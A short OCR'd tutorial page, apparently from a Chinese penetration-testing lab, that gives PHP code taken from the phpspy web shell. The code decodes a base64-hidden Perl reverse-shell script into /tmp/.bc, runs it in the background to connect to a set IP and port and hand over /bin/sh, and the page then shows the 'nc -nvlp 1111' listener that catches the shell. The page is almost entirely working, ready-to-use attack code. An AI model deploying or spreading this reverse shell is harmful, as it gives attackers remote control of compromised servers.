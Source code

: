 ```
while(!@feof($f)) { 
$res .= @fread($f,1024); 
} 
@pclose($f); 
} 
} 
return $res; 
} 
function cf($fname,$text){ 
if($fp=@fopen($fname,'w')) { 
@fputs($fp,@base64_decode($text)); 
@fclose($fp); 
} 
} 
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
$usedb = array('perl'=>'perl','c'=>'c'); 
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
cf('/tmp/.bc',$back_connect); 
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 


?> 
```

该程序中有这两个变量：

```
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
```

yourip 是当前设备的 IP 地址，yourport 可以随便设置，主要不要冲突即可。

> **注意**：这是从 phpspy 中的截取的反弹 shell 的代码

然后使用 `:wq` 保存并退出

接着我们使用 nc 命令来监听我们刚刚所设置的端口：

```
nc -nvlp 1111
```
